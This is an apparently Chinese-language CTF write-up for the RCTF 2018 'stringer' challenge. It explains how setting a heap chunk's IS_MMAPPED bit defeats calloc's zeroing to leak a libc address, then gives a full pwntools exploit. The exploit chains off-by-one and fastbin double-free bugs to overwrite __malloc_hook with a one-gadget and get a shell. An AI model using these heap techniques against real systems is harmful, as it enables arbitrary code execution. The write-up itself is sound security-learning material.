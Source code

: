 # RCTF stringer
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>老样子先贴一下我学习的**NBUSEC**队伍的wp[链接](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/stringer/stringer_exploit.py)，诶刚起步只能多学习学习其他大佬的。</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>这题保护全开，给的libc可以改写GOT，所以覆写\__malloc_hook不用多说，程序逆向分析一下发现明显存在off-by-one漏洞和double-free漏洞，当然还有UAF。这题主要难在calloc的行为会阻止我们泄露地址，不过，道高一尺魔高一丈:)</br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>通过观察[calloc](https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c)的源代码可以看到有这样一段：</br>

```C
 p = mem2chunk (mem);

  /* Two optional cases in which clearing not necessary */
  if (chunk_is_mmapped (p))
    {
      if (__builtin_expect (perturb_byte, 0))
        return memset (mem, 0, sz);

      return mem;
    }

  csz = chunksize (p);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>意思就是说如果堆块被设置了mmaped标志位的话，calloc就不会把他初始化为0，那么mmaped标志位在哪呢？我们来看一下堆块头（取自[sploitfun](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)）：</br>

>prev_size – If the previous chunk is free, this field contains the size of previous chunk.</br>
>Else if previous chunk is allocated, this field contains previous chunk’s user data.</br>
></br>
>size : This field contains the size of this allocated chunk. Last 3 bits of this field contains flag information.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PREV_INUSE (P) – This bit is set when previous chunk is allocated.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IS_MMAPPED (M) – This bit is set when chunk is mmap’d.</br>
>	&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NON_MAIN_ARENA (N) – This bit is set when this chunk belongs to a thread arena.</br>
></br>
>fd – Points to next chunk in the same bin.</br>
>bk – Points to previous chunk in the same bin.


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2></font>也就是堆块size中的第二个比特位，如果本来size是0x91,我们置了mmaped之后就是0x93(PREV_INUSE | IS_MMAPED)。然后就可以绕过置0，成功泄露地址了:)其他套路都差不多，所以直接放脚本了：</br>

Exploit脚本:
=======

```python
from pwn import *

DEBUG = 1

def add_string(size, content, is_attack=False):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil('please input string length: ')
    p.sendline(str(size))

    if not is_attack:
        p.recvuntil('please input the string content: ')
        p.send(content)
        p.recvuntil('your string: ')

def view_string(title):
    p.recvuntil('choice: ')
    p.sendline('2')
    p.recvuntil("don't even think about it")

def edit_string(index, offset):
    p.recvuntil('choice: ')
    p.sendline('3')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))
    p.recvuntil('input the byte index: ')
    p.sendline(str(offset))

def delete_string(index):
    p.recvuntil('choice: ')
    p.sendline('4')
    p.recvuntil('please input the index: ')
    p.sendline(str(index))

def leak():

    add_string(24, 'a' * 24)        # 0 (32) fastbin_1
    add_string(128, 'b' * 128)      # 1 (144) smallbin_1
    add_string(24,  'c' * 24)       # 2 (32) fastbin_2

    delete_string(1)

    # its size changes from 0x91 to 0x93 (PREV_INUSE && IS_MMAPED)
    edit_string(0, 24)
    edit_string(0, 24)

    # smallbin_2 will be placed in smallbin_1's chunk
    add_string(128, 'd' * 7 + '\n') # 3 (144) smallbin_2

    # leak bk pointer of smallbin_1
    p.recvuntil('d' * 7 + '\n')
    return u64(p.recv(6) + '\x00\x00') - 0x3c4b78

def exploit(libc_base):

    # allocate two fastbins to launch the fastbin attack using double free
    add_string(96, 'e' * 96)        # 4 (112) fastbin_3
    add_string(96, 'f' * 96)        # 5 (112) fastbin_4

    delete_string(4)
    delete_string(5)
    delete_string(4)

    fake_chunk = libc_base + 0x3c4aed			# before __malloc_hook
    print 'Fake Chunk: {}'.format(hex(fake_chunk))
    add_string(96, p64(fake_chunk) + 'g' * 88)          # 6 (112) fastbin_5

    add_string(96, 'h' * 96)                            # 7 (112) fastbin_6

    add_string(96, 'i' * 96)                            # 8 (112) fastbin_7

    execve_addr = libc_base + 0xf02a4 			# oneshot address
    add_string(96, 'i' * 19 + p64(execve_addr) + '\n')  # 9 (112) fastbin_8

    add_string(1, '\n', True)

if __name__ == '__main__':
    if DEBUG == 1:
      p = process('./stringer')
    else:
      p = remote('stringer.2018.teamrois.cn',7272)

    libc_base = leak()
    print 'libc base: {}'.format(hex(libc_base))

    exploit(libc_base)

    p.interactive()

```
